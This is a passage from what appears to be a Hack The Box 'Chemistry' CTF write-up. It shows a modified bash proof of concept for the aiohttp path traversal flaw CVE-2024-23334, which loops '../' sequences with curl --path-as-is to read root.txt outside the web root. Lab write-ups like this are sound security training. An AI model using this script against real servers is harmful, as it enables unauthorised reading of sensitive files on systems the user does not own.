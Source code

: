 
Upon searching for vulnerabilities, I found an exploit for `aiohttp`:<br>
[https://github.com/z3rObyte/CVE-2024-23334-PoC](https://github.com/z3rObyte/CVE-2024-23334-PoC)

I modified the exploit to attempt **path traversal** and access `root.txt`:
```
#!/bin/bash

url="http://localhost:8085"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

Executing the script successfully retrieved `root.txt`:
![](/assets/blogimages/Writeups/Hackthebox/Chemistry/Chemistry10.png)


